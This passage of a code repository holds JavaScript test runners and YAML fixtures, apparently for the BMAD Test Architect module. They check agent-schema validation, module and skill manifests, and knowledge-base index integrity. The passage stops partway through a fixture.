      const actualError = result.error.issues[0];

      // If we have error expectations, validate strictly
      if (errorExpectation) {
        const validation = validateError(actualError, errorExpectation);

        if (!validation.valid) {
          return {
            passed: false,
            message: `Error validation failed: ${validation.reason}`,
          };
        }

        return {
          passed: true,
          message: `Got expected error (${errorExpectation.code}): ${actualError.message}`,
        };
      }

      // No specific expectations - just check that it failed
      return {
        passed: true,
        message: `Got expected validation error: ${actualError?.message}`,
      };
    }

    if (result.success && !shouldPass) {
      return {
        passed: false,
        message: 'Expected validation to FAIL but it PASSED',
      };
    }

    if (!result.success && shouldPass) {
      return {
        passed: false,
        message: `Expected validation to PASS but it FAILED: ${result.error.issues[0]?.message}`,
      };
    }

    return {
      passed: false,
      message: 'Unexpected test state',
    };
  } catch (error) {
    return {
      passed: false,
      message: `Test execution error: ${error.message}`,
    };
  }
}

/**
 * Main test runner
 */
async function main() {
  console.log(`${colors.cyan}╔═══════════════════════════════════════════════════════════╗${colors.reset}`);
  console.log(`${colors.cyan}║  Agent Schema Validation Test Suite                      ║${colors.reset}`);
  console.log(`${colors.cyan}╚═══════════════════════════════════════════════════════════╝${colors.reset}\n`);

  // Find all test fixtures
  const testFiles = await glob('test/fixtures/agent-schema/**/*.agent.yaml', {
    cwd: path.join(__dirname, '..'),
    absolute: true,
  });

  if (testFiles.length === 0) {
    console.log(`${colors.yellow}⚠️  No test fixtures found${colors.reset}`);
    process.exit(0);
  }

  console.log(`Found ${colors.cyan}${testFiles.length}${colors.reset} test fixture(s)\n`);

  // Group tests by category
  const categories = {};
  for (const testFile of testFiles) {
    const relativePath = path.relative(path.join(__dirname, 'fixtures/agent-schema'), testFile);
    const parts = relativePath.split(path.sep);
    const validInvalid = parts[0]; // 'valid' or 'invalid'
    const category = parts[1]; // 'top-level', 'metadata', etc.

    const categoryKey = `${validInvalid}/${category}`;
    if (!categories[categoryKey]) {
      categories[categoryKey] = [];
    }
    categories[categoryKey].push(testFile);
  }

  // Run tests by category
  let totalTests = 0;
  let passedTests = 0;
  const failures = [];

  for (const [categoryKey, files] of Object.entries(categories).sort()) {
    const [validInvalid, category] = categoryKey.split('/');
    const categoryLabel = category.replaceAll('-', ' ').toUpperCase();
    const validLabel = validInvalid === 'valid' ? '✅' : '❌';

    console.log(`${colors.blue}${validLabel} ${categoryLabel} (${validInvalid})${colors.reset}`);

    for (const testFile of files) {
      totalTests++;
      const testName = path.basename(testFile, '.agent.yaml');
      const result = runTest(testFile);

      if (result.passed) {
        passedTests++;
        console.log(`  ${colors.green}✓${colors.reset} ${testName} ${colors.dim}${result.message}${colors.reset}`);
      } else {
        console.log(`  ${colors.red}✗${colors.reset} ${testName} ${colors.red}${result.message}${colors.reset}`);
        failures.push({
          file: path.relative(process.cwd(), testFile),
          message: result.message,
        });
      }
    }
    console.log('');
  }

  // Summary
  console.log(`${colors.cyan}═══════════════════════════════════════════════════════════${colors.reset}`);
  console.log(`${colors.cyan}Test Results:${colors.reset}`);
  console.log(`  Total:  ${totalTests}`);
  console.log(`  Passed: ${colors.green}${passedTests}${colors.reset}`);
  console.log(`  Failed: ${passedTests === totalTests ? colors.green : colors.red}${totalTests - passedTests}${colors.reset}`);
  console.log(`${colors.cyan}═══════════════════════════════════════════════════════════${colors.reset}\n`);

  // Report failures
  if (failures.length > 0) {
    console.log(`${colors.red}❌ FAILED TESTS:${colors.reset}\n`);
    for (const failure of failures) {
      console.log(`${colors.red}✗${colors.reset} ${failure.file}`);
      console.log(`  ${failure.message}\n`);
    }
    process.exit(1);
  }

  console.log(`${colors.green}✨ All tests passed!${colors.reset}\n`);
  process.exit(0);
}

// Run
main().catch((error) => {
  console.error(`${colors.red}Fatal error:${colors.reset}`, error);
  process.exit(1);
});
```

## File: `test/test-installation-components.js`
```javascript
/**
 * Installation Component Tests - TEA Module
 *
 * Tests TEA module installation components in isolation:
 * - Agent YAML structure validation
 * - Module.yaml validation
 * - Path references validation
 *
 * These are deterministic unit tests that don't require full installation.
 * Usage: node test/test-installation-components.js
 */

const path = require('node:path');
const fs = require('node:fs/promises');
const yaml = require('js-yaml');

async function pathExists(filePath) {
  try {
    await fs.access(filePath);
    return true;
  } catch {
    return false;
  }
}

// ANSI colors
const colors = {
  reset: '\u001B[0m',
  green: '\u001B[32m',
  red: '\u001B[31m',
  yellow: '\u001B[33m',
  cyan: '\u001B[36m',
  dim: '\u001B[2m',
};

let passed = 0;
let failed = 0;

/**
 * Test helper: Assert condition
 */
function assert(condition, testName, errorMessage = '') {
  if (condition) {
    console.log(`${colors.green}✓${colors.reset} ${testName}`);
    passed++;
  } else {
    console.log(`${colors.red}✗${colors.reset} ${testName}`);
    if (errorMessage) {
      console.log(`  ${colors.dim}${errorMessage}${colors.reset}`);
    }
    failed++;
  }
}

/**
 * Test Suite
 */
async function runTests() {
  console.log(`${colors.cyan}========================================`);
  console.log('TEA Installation Component Tests');
  console.log(`========================================${colors.reset}\n`);

  const projectRoot = path.join(__dirname, '..');

  // ============================================================
  // Test 1: Module.yaml Structure
  // ============================================================
  console.log(`${colors.yellow}Test Suite 1: Module Configuration${colors.reset}\n`);

  try {
    const moduleYamlPath = path.join(projectRoot, 'src/module.yaml');
    const moduleYaml = yaml.load(await fs.readFile(moduleYamlPath, 'utf8'));

    assert(moduleYaml.code === 'tea', 'module.yaml has correct code: tea');
    assert(moduleYaml.name === 'Test Architect', 'module.yaml has correct name');
    assert(typeof moduleYaml.description === 'string' && moduleYaml.description.length > 0, 'module.yaml has description');
    assert(typeof moduleYaml.default_selected === 'boolean', 'module.yaml has boolean default_selected');
    assert(moduleYaml.tea_use_pactjs_utils.default === false, 'module.yaml defaults Pact.js Utils to false');
    assert(moduleYaml.tea_pact_mcp.default === 'none', 'module.yaml defaults Pact MCP to none');
    assert(
      moduleYaml.tea_use_pactjs_utils.prompt.includes('consumer-driven contract testing'),
      'module.yaml Pact.js Utils prompt explains CDC intent',
    );
    assert(
      moduleYaml.tea_pact_mcp.prompt.includes('Only needed if you already use a broker'),
      'module.yaml Pact MCP prompt explains broker prerequisite',
    );
  } catch (error) {
    assert(false, 'module.yaml loads and validates', error.message);
  }

  console.log('');

  // ============================================================
  // Test 2: TEA Agent Native Skill Structure
  // ============================================================
  console.log(`${colors.yellow}Test Suite 2: TEA Agent Native Skill Structure${colors.reset}\n`);

  try {
    const skillDir = path.join(projectRoot, 'src/agents/bmad-tea');
    const skillMdPath = path.join(skillDir, 'SKILL.md');
    const manifestPath = path.join(skillDir, 'bmad-skill-manifest.yaml');

    // Validate SKILL.md exists and has required sections
    if (await pathExists(skillMdPath)) {
      const skillContent = await fs.readFile(skillMdPath, 'utf8');

      assert(skillContent.includes('name: bmad-tea'), 'SKILL.md has correct skill name in frontmatter');
      assert(skillContent.includes('## Identity'), 'SKILL.md has Identity section');
      assert(skillContent.includes('## Principles'), 'SKILL.md has Principles section');
      assert(skillContent.includes('## Critical Actions'), 'SKILL.md has Critical Actions section');
      assert(skillContent.includes('## Capabilities'), 'SKILL.md has Capabilities section');
      assert(skillContent.includes('## On Activation'), 'SKILL.md has On Activation section');

      // Verify all 9 capability codes are present in the capabilities table
      const capabilityCodes = ['TMT', 'TF', 'AT', 'TA', 'TD', 'TR', 'NR', 'CI', 'RV'];
      for (const code of capabilityCodes) {
        const codePattern = new RegExp(`\\|\\s*${code}\\s*\\|`);
        assert(codePattern.test(skillContent), `SKILL.md has capability code ${code}`);
      }

      // Verify no BMM references
      assert(!skillContent.includes('_bmad/bmm/'), 'SKILL.md has no _bmad/bmm/ references');
      assert(!skillContent.includes('module: bmm'), 'SKILL.md has no module: bmm references');
    } else {
      assert(false, 'SKILL.md exists', 'src/agents/bmad-tea/SKILL.md not found');
    }

    // Validate bmad-skill-manifest.yaml
    if (await pathExists(manifestPath)) {
      const manifest = yaml.load(await fs.readFile(manifestPath, 'utf8'));

      assert(manifest.type === 'agent', 'Manifest has type: agent');
      assert(manifest.name === 'bmad-tea', 'Manifest has correct name');
      assert(manifest.module === 'tea', 'Manifest has module: tea');
      assert(manifest.canonicalId === 'bmad-tea', 'Manifest has correct canonicalId');
      assert(manifest.webskip === true, 'Manifest has webskip: true');
      assert(manifest.hasSidecar === false, 'Manifest has hasSidecar: false');

      // Verify all 9 capability skill IDs reference real workflow directories
      const expectedSkillDirs = [
        'bmad-teach-me-testing',
        'bmad-testarch-framework',
        'bmad-testarch-atdd',
        'bmad-testarch-automate',
        'bmad-testarch-test-design',
        'bmad-testarch-trace',
        'bmad-testarch-nfr',
        'bmad-testarch-ci',
        'bmad-testarch-test-review',
      ];
      for (const skillDir of expectedSkillDirs) {
        const workflowDir = path.join(projectRoot, `src/workflows/testarch/${skillDir}`);
        assert(await pathExists(workflowDir), `Capability skill ${skillDir} has matching workflow directory`);
      }
    } else {
      assert(false, 'bmad-skill-manifest.yaml exists', 'src/agents/bmad-tea/bmad-skill-manifest.yaml not found');
    }
  } catch (error) {
    assert(false, 'TEA agent native skill structure validates', error.message);
  }

  console.log('');

  // ============================================================
  // Test 3: Knowledge Base Structure
  // ============================================================
  console.log(`${colors.yellow}Test Suite 3: Knowledge Base${colors.reset}\n`);

  try {
    const teaIndexPath = path.join(projectRoot, 'src/agents/bmad-tea/resources/tea-index.csv');

    if (await pathExists(teaIndexPath)) {
      const csvContent = await fs.readFile(teaIndexPath, 'utf8');
      const lines = csvContent.trim().split('\n');

      assert(lines.length === 43, 'tea-index.csv has 43 lines (header + 42 fragments)', `Found ${lines.length} lines`);
      assert(lines[0].includes('id,name,description,tags,tier,fragment_file'), 'tea-index.csv has correct header format');

      // Verify no BMM references in CSV
      assert(!csvContent.includes('bmm'), 'tea-index.csv has no BMM references');
    } else {
      console.log(`  ${colors.dim}Skipping - tea-index.csv not found (run Phase 2 first)${colors.reset}`);
    }
  } catch (error) {
    assert(false, 'Knowledge base structure validates', error.message);
  }

  console.log('');

  // ============================================================
  // Test 4: Workflow Structure
  // ============================================================
  console.log(`${colors.yellow}Test Suite 4: Workflow Structure${colors.reset}\n`);

  const teachMeWorkflowPath = path.join(projectRoot, 'src/workflows/testarch/bmad-teach-me-testing/workflow.md');
  try {
    if (await pathExists(teachMeWorkflowPath)) {
      const teachMeContent = await fs.readFile(teachMeWorkflowPath, 'utf8');
      assert(teachMeContent.length > 0, 'bmad-teach-me-testing/workflow.md exists');
      assert(!teachMeContent.includes('_bmad/bmm/'), 'bmad-teach-me-testing has no _bmad/bmm/ references');
    } else {
      assert(false, 'bmad-teach-me-testing workflow exists', 'src/workflows/testarch/bmad-teach-me-testing/workflow.md not found');
    }
  } catch (error) {
    assert(false, 'teach-me-testing workflow validates', error.message);
  }

  const workflowDirs = {
    'bmad-testarch-framework': 'framework',
    'bmad-testarch-ci': 'ci',
    'bmad-testarch-test-design': 'test-design',
    'bmad-testarch-atdd': 'atdd',
    'bmad-testarch-automate': 'automate',
    'bmad-testarch-test-review': 'test-review',
    'bmad-testarch-nfr': 'nfr-assess',
    'bmad-testarch-trace': 'trace',
  };

  for (const [dirName, displayName] of Object.entries(workflowDirs)) {
    const workflowYamlPath = path.join(projectRoot, `src/workflows/testarch/${dirName}/workflow.yaml`);

    if (await pathExists(workflowYamlPath)) {
      try {
        const workflowYaml = yaml.load(await fs.readFile(workflowYamlPath, 'utf8'));
        assert(workflowYaml !== undefined, `${dirName}/workflow.yaml is valid YAML`);

        // Verify no BMM references
        const yamlContent = await fs.readFile(workflowYamlPath, 'utf8');
        assert(!yamlContent.includes('_bmad/bmm/'), `${dirName} has no _bmad/bmm/ references`);
      } catch (error) {
        assert(false, `${dirName}/workflow.yaml validates`, error.message);
      }
    }
  }

  const frameworkScaffoldStepPath = path.join(
    projectRoot,
    'src/workflows/testarch/bmad-testarch-framework/steps-c/step-03-scaffold-framework.md',
  );
  try {
    const frameworkScaffoldStep = await fs.readFile(frameworkScaffoldStepPath, 'utf8');
    assert(frameworkScaffoldStep.includes('recurse.md'), 'framework scaffold step loads recurse.md when Playwright Utils is enabled');
    assert(frameworkScaffoldStep.includes('log.md'), 'framework scaffold step loads log.md when Playwright Utils is enabled');
    assert(
      frameworkScaffoldStep.includes('intercept-network-call.md'),
      'framework scaffold step conditionally loads intercept-network-call.md',
    );
  } catch (error) {
    assert(false, 'framework scaffold fragment list validates', error.message);
  }

  console.log('');

  // ============================================================
  // Summary
  // ============================================================
  console.log(`${colors.cyan}========================================`);
  console.log('Test Results:');
  console.log(`  Passed: ${colors.green}${passed}${colors.reset}`);
  console.log(`  Failed: ${colors.red}${failed}${colors.reset}`);
  console.log(`========================================${colors.reset}\n`);

  if (failed === 0) {
    console.log(`${colors.green}✨ All installation component tests passed!${colors.reset}\n`);
    process.exit(0);
  } else {
    console.log(`${colors.red}❌ Some installation component tests failed${colors.reset}\n`);
    process.exit(1);
  }
}

// Run tests
runTests().catch((error) => {
  console.error(`${colors.red}Test runner failed:${colors.reset}`, error.message);
  console.error(error.stack);
  process.exit(1);
});
```

## File: `test/test-knowledge-base.js`
```javascript
/**
 * Knowledge Base Validation Tests - TEA Module
 *
 * Tests tea-index.csv parsing, fragment existence, tag selection,
 * and cross-fragment link references.
 *
 * Usage: node test/test-knowledge-base.js
 */

const fs = require('node:fs');
const path = require('node:path');
const { parse } = require('csv-parse/sync');

// ANSI colors
const colors = {
  reset: '\u001B[0m',
  green: '\u001B[32m',
  red: '\u001B[31m',
  yellow: '\u001B[33m',
  cyan: '\u001B[36m',
  dim: '\u001B[2m',
};

let passed = 0;
let failed = 0;
let warned = 0;

function assert(condition, testName, errorMessage = '') {
  if (condition) {
    console.log(`${colors.green}✓${colors.reset} ${testName}`);
    passed++;
  } else {
    console.log(`${colors.red}✗${colors.reset} ${testName}`);
    if (errorMessage) {
      console.log(`  ${colors.dim}${errorMessage}${colors.reset}`);
    }
    failed++;
  }
}

function warn(message) {
  console.log(`${colors.yellow}•${colors.reset} ${message}`);
  warned++;
}

function parseTags(tagString) {
  if (!tagString) return [];
  return tagString
    .split(',')
    .map((tag) => tag.trim())
    .filter(Boolean);
}

function isExternalLink(href) {
  return href.startsWith('http://') || href.startsWith('https://');
}

function resolveFragmentLink(baseDir, href) {
  if (href.startsWith('knowledge/')) {
    return path.join(baseDir, href);
  }
  if (href.startsWith('./') || href.startsWith('../')) {
    return path.join(baseDir, href);
  }
  // If only a filename is provided, assume knowledge dir
  if (href.endsWith('.md') && !href.includes('/')) {
    return path.join(baseDir, 'knowledge', href);
  }
  return null;
}

function runTests() {
  console.log(`${colors.cyan}========================================`);
  console.log('TEA Knowledge Base Tests');
  console.log(`========================================${colors.reset}\n`);

  const projectRoot = path.join(__dirname, '..');
  const kbRoot = path.join(projectRoot, 'src', 'agents', 'bmad-tea', 'resources');
  const indexPath = path.join(kbRoot, 'tea-index.csv');

  // ============================================================
  // Test 1: Parse CSV and validate structure
  // ============================================================
  console.log(`${colors.yellow}Test Suite 1: CSV Structure${colors.reset}\n`);

  let records = [];
  try {
    const csv = fs.readFileSync(indexPath, 'utf8');
    records = parse(csv, { columns: true, skip_empty_lines: true });

    assert(records.length === 42, 'tea-index.csv has 42 fragment records', `Found ${records.length}`);

    const requiredFields = ['id', 'name', 'description', 'tags', 'tier', 'fragment_file'];
    const missingFields = requiredFields.filter((field) => !Object.prototype.hasOwnProperty.call(records[0] || {}, field));
    assert(missingFields.length === 0, 'tea-index.csv has required columns', missingFields.join(', '));

    // Validate tier values
    const validTiers = new Set(['core', 'extended', 'specialized']);
    const invalidTiers = records.filter((r) => !validTiers.has(r.tier));
    assert(
      invalidTiers.length === 0,
      'All fragments have valid tier values (core/extended/specialized)',
      invalidTiers.map((r) => `${r.id}: "${r.tier}"`).join(', '),
    );
  } catch (error) {
    assert(false, 'tea-index.csv parsed successfully', error.message);
  }

  console.log('');

  // ============================================================
  // Test 2: Fragment file existence
  // ============================================================
  console.log(`${colors.yellow}Test Suite 2: Fragment Existence${colors.reset}\n`);

  if (records.length > 0) {
    let missingCount = 0;
    for (const record of records) {
      const fragmentPath = path.join(kbRoot, record.fragment_file);
      const exists = fs.existsSync(fragmentPath);
      if (!exists) missingCount++;
      assert(exists, `fragment exists: ${record.fragment_file}`);
    }
    assert(missingCount === 0, 'all fragments exist');
  } else {
    assert(false, 'fragment records loaded', 'No records found in tea-index.csv');
  }

  console.log('');

  // ============================================================
  // Test 3: Tag selection logic
  // ============================================================
  console.log(`${colors.yellow}Test Suite 3: Tag Selection${colors.reset}\n`);

  if (records.length > 0) {
    const firstTag = parseTags(records[0].tags)[0];
    const selected = records.filter((record) => parseTags(record.tags).includes(firstTag));
    assert(Boolean(firstTag), 'first record has at least one tag');
    assert(selected.length > 0, `tag filter returns results for '${firstTag}'`);

    const none = records.filter((record) => parseTags(record.tags).includes('__no_such_tag__'));
    assert(none.length === 0, 'unknown tag returns no results');
  } else {
    assert(false, 'tag selection tested', 'No records to test');
  }

  console.log('');

  // ============================================================
  // Test 4: Cross-fragment references
  // ============================================================
  console.log(`${colors.yellow}Test Suite 4: Cross-Fragment Links${colors.reset}\n`);

  const knowledgeDir = path.join(kbRoot, 'knowledge');
  const mdFiles = fs.readdirSync(knowledgeDir).filter((name) => name.endsWith('.md'));

  let linkCount = 0;
  let brokenLinks = 0;

  for (const fileName of mdFiles) {
    const filePath = path.join(knowledgeDir, fileName);
    const content = fs.readFileSync(filePath, 'utf8');

    const linkMatches = content.matchAll(/\]\(([^)]+)\)/g);
    for (const match of linkMatches) {
      const href = match[1].trim();
      if (!href.endsWith('.md') || isExternalLink(href)) continue;

      const resolved = resolveFragmentLink(kbRoot, href);
      if (!resolved) continue;

      linkCount++;
      const exists = fs.existsSync(resolved);
      if (!exists) brokenLinks++;
      assert(exists, `link resolves: ${fileName} -> ${href}`);
    }
  }

  if (linkCount === 0) {
    warn('no cross-fragment links detected (informational)');
  } else {
    assert(linkCount > 0, 'cross-fragment links detected (at least one)');
  }
  assert(brokenLinks === 0, 'no broken cross-fragment links');

  console.log('');

  // ============================================================
  // Summary
  // ============================================================
  console.log(`${colors.cyan}========================================`);
  console.log('Test Results:');
  console.log(`  Passed: ${colors.green}${passed}${colors.reset}`);
  console.log(`  Warnings: ${colors.yellow}${warned}${colors.reset}`);
  console.log(`  Failed: ${colors.red}${failed}${colors.reset}`);
  console.log(`========================================${colors.reset}\n`);

  if (failed === 0) {
    console.log(`${colors.green}✨ Knowledge base tests passed!${colors.reset}\n`);
    process.exit(0);
  } else {
    console.log(`${colors.red}❌ Knowledge base tests failed${colors.reset}\n`);
    process.exit(1);
  }
}

runTests();
```

## File: `test/unit-test-schema.js`
```javascript
/**
 * Unit Tests for Agent Schema Edge Cases
 *
 * Tests internal functions to achieve 100% branch coverage
 */

const { validateAgentFile } = require('./schema/agent.js');

console.log('Running edge case unit tests...\n');

let passed = 0;
let failed = 0;

// Test 1: Path with malformed module structure (no slash after module name)
// This tests line 213: slashIndex === -1
console.log('Test 1: Malformed module path (no slash after module name)');
try {
  const result = validateAgentFile('src/modules/bmm', {
    agent: {
      metadata: {
        id: 'test',
        name: 'Test',
        title: 'Test',
        icon: '🧪',
      },
      persona: {
        role: 'Test',
        identity: 'Test',
        communication_style: 'Test',
        principles: ['Test'],
      },
      menu: [{ trigger: 'help', description: 'Help', action: 'help' }],
    },
  });

  if (result.success) {
    console.log('✗ Should have failed - missing module field');
    failed++;
  } else {
    console.log('✓ Correctly handled malformed path (treated as core agent)');
    passed++;
  }
} catch (error) {
  console.log('✗ Unexpected error:', error.message);
  failed++;
}
console.log('');

// Test 2: Module option with empty string
// This tests line 222: trimmed.length > 0
console.log('Test 2: Module agent with empty string in module field');
try {
  const result = validateAgentFile('src/modules/bmm/agents/test.agent.yaml', {
    agent: {
      metadata: {
        id: 'test',
        name: 'Test',
        title: 'Test',
        icon: '🧪',
        module: '   ', // Empty after trimming
      },
      persona: {
        role: 'Test',
        identity: 'Test',
        communication_style: 'Test',
        principles: ['Test'],
      },
      menu: [{ trigger: 'help', description: 'Help', action: 'help' }],
    },
  });

  if (result.success) {
    console.log('✗ Should have failed - empty module string');
    failed++;
  } else {
    console.log('✓ Correctly rejected empty module string');
    passed++;
  }
} catch (error) {
  console.log('✗ Unexpected error:', error.message);
  failed++;
}
console.log('');

// Test 3: Core agent path (src/core/agents/...) - tests the !filePath.startsWith(marker) branch
console.log('Test 3: Core agent path returns null for module');
try {
  const result = validateAgentFile('src/core/agents/test.agent.yaml', {
    agent: {
      metadata: {
        id: 'test',
        name: 'Test',
        title: 'Test',
        icon: '🧪',
        // No module field - correct for core agent
      },
      persona: {
        role: 'Test',
        identity: 'Test',
        communication_style: 'Test',
        principles: ['Test'],
      },
      menu: [{ trigger: 'help', description: 'Help', action: 'help' }],
    },
  });

  if (result.success) {
    console.log('✓ Core agent validated correctly (no module required)');
    passed++;
  } else {
    console.log('✗ Core agent should pass without module field');
    failed++;
  }
} catch (error) {
  console.log('✗ Unexpected error:', error.message);
  failed++;
}
console.log('');

// Summary
console.log('═══════════════════════════════════════');
console.log('Edge Case Unit Test Results:');
console.log(`  Passed: ${passed}`);
console.log(`  Failed: ${failed}`);
console.log('═══════════════════════════════════════\n');

if (failed === 0) {
  console.log('✨ All edge case tests passed!\n');
  process.exit(0);
} else {
  console.log('❌ Some edge case tests failed\n');
  process.exit(1);
}
```

## File: `test/validate-agent-schema.js`
```javascript
/**
 * Agent Schema Validator CLI
 *
 * Scans all *.agent.yaml files in src/{core,modules/*}/agents/
 * and validates them against the Zod schema.
 *
 * Usage: node tools/validate-agent-schema.js [project_root]
 * Exit codes: 0 = success, 1 = validation failures
 *
 * Optional argument:
 *   project_root - Directory to scan (defaults to BMAD repo root)
 */

const { glob } = require('glob');
const yaml = require('yaml');
const fs = require('node:fs');
const path = require('node:path');
const { validateAgentFile } = require('./schema/agent.js');

/**
 * Main validation routine
 * @param {string} [customProjectRoot] - Optional project root to scan (for testing)
 */
async function main(customProjectRoot) {
  console.log('🔍 Scanning for agent files...\n');

  // Determine project root: use custom path if provided, otherwise default to repo root
  const project_root = customProjectRoot || path.join(__dirname, '..');

  // Find all agent files
  const agentFiles = await glob('src/**/*.agent.yaml', {
    cwd: project_root,
    absolute: true,
  });

  if (agentFiles.length === 0) {
    console.log('❌ No agent files found. This likely indicates a configuration error.');
    console.log('   Expected to find *.agent.yaml files in src/{core,modules/*}/agents/');
    process.exit(1);
  }

  console.log(`Found ${agentFiles.length} agent file(s)\n`);

  const errors = [];

  // Validate each file
  for (const filePath of agentFiles) {
    const relativePath = path.relative(process.cwd(), filePath);

    try {
      const fileContent = fs.readFileSync(filePath, 'utf8');
      const agentData = yaml.parse(fileContent);

      // Convert absolute path to relative src/ path for module detection
      const srcRelativePath = relativePath.startsWith('src/') ? relativePath : path.relative(project_root, filePath).replaceAll('\\', '/');

      const result = validateAgentFile(srcRelativePath, agentData);

      if (result.success) {
        console.log(`✅ ${relativePath}`);
      } else {
        errors.push({
          file: relativePath,
          issues: result.error.issues,
        });
      }
    } catch (error) {
      errors.push({
        file: relativePath,
        issues: [
          {
            code: 'parse_error',
            message: `Failed to parse YAML: ${error.message}`,
            path: [],
          },
        ],
      });
    }
  }

  // Report errors
  if (errors.length > 0) {
    console.log('\n❌ Validation failed for the following files:\n');

    for (const { file, issues } of errors) {
      console.log(`\n📄 ${file}`);
      for (const issue of issues) {
        const pathString = issue.path.length > 0 ? issue.path.join('.') : '(root)';
        console.log(`   Path: ${pathString}`);
        console.log(`   Error: ${issue.message}`);
        if (issue.code) {
          console.log(`   Code: ${issue.code}`);
        }
      }
    }

    console.log(`\n\n💥 ${errors.length} file(s) failed validation`);
    process.exit(1);
  }

  console.log(`\n✨ All ${agentFiles.length} agent file(s) passed validation!\n`);
  process.exit(0);
}

// Run with optional command-line argument for project root
const customProjectRoot = process.argv[2];
main(customProjectRoot).catch((error) => {
  console.error('Fatal error:', error);
  process.exit(1);
});
```

## File: `test/fixtures/agent-schema/invalid/critical-actions/actions-as-string.agent.yaml`
```yaml
# Test: critical_actions as non-array
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.critical_actions
# Error expected: array

agent:
  metadata:
    id: actions-string
    name: Actions String
    title: Actions String
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  critical_actions: This should be an array

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/critical-actions/empty-string-in-actions.agent.yaml`
```yaml
# Test: critical_actions with empty strings
# Expected: FAIL
# Error code: custom
# Error path: agent.critical_actions[1]
# Error message: agent.critical_actions[] must be a non-empty string

agent:
  metadata:
    id: empty-action-string
    name: Empty Action String
    title: Empty Action String
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  critical_actions:
    - Valid action
    - "   "
    - Another valid action

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/menu/empty-menu.agent.yaml`
```yaml
# Test: Empty menu array
# Expected: FAIL
# Error code: too_small
# Error path: agent.menu
# Error minimum: 1

agent:
  metadata:
    id: empty-menu
    name: Empty Menu
    title: Empty Menu
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu: []
```

## File: `test/fixtures/agent-schema/invalid/menu/missing-menu.agent.yaml`
```yaml
# Test: Missing menu field
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.menu
# Error expected: array

agent:
  metadata:
    id: missing-menu
    name: Missing Menu
    title: Missing Menu
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle
```

## File: `test/fixtures/agent-schema/invalid/menu-commands/empty-command-target.agent.yaml`
```yaml
# Test: Menu item with empty string command target
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].action
# Error message: agent.menu[].action must be a non-empty string

agent:
  metadata:
    id: empty-command
    name: Empty Command Target
    title: Empty Command
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: "   "
```

## File: `test/fixtures/agent-schema/invalid/menu-commands/no-command-target.agent.yaml`
```yaml
# Test: Menu item with no command target fields
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0]
# Error message: agent.menu[] entries must include at least one command target field

agent:
  metadata:
    id: no-command
    name: No Command Target
    title: No Command
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help but no command target
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/camel-case.agent.yaml`
```yaml
# Test: CamelCase trigger
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)

agent:
  metadata:
    id: camel-case-trigger
    name: CamelCase Trigger
    title: CamelCase
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: listTasks
      description: Invalid CamelCase trigger
      action: list_tasks
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/compound-invalid-format.agent.yaml`
```yaml
# Test: Compound trigger with invalid format
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger compound format error: invalid compound trigger format

agent:
  metadata:
    id: compound-invalid-format
    name: Invalid Format
    title: Invalid Format Test
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: TS or tech-spec
      description: Missing fuzzy match clause
      action: test
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/compound-mismatched-kebab.agent.yaml`
```yaml
# Test: Compound trigger with old format (no longer supported)
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger compound format error: invalid compound trigger format

agent:
  metadata:
    id: compound-mismatched-kebab
    name: Old Format
    title: Old Format Test
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: TS or tech-spec or fuzzy match on tech-spec
      description: Old format with middle kebab-case (no longer supported)
      action: test
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/duplicate-triggers.agent.yaml`
```yaml
# Test: Duplicate triggers within same agent
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[2].trigger
# Error message: agent.menu[].trigger duplicates "help" within the same agent

agent:
  metadata:
    id: duplicate-triggers
    name: Duplicate Triggers
    title: Duplicate
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: First help command
      action: display_help
    - trigger: list-tasks
      description: List tasks
      action: list_tasks
    - trigger: help
      description: Duplicate help command
      action: show_help
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/empty-trigger.agent.yaml`
```yaml
# Test: Empty trigger string
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger must be a non-empty string

agent:
  metadata:
    id: empty-trigger
    name: Empty Trigger
    title: Empty
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: "   "
      description: Empty trigger
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/leading-asterisk.agent.yaml`
```yaml
# Test: Trigger with leading asterisk
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
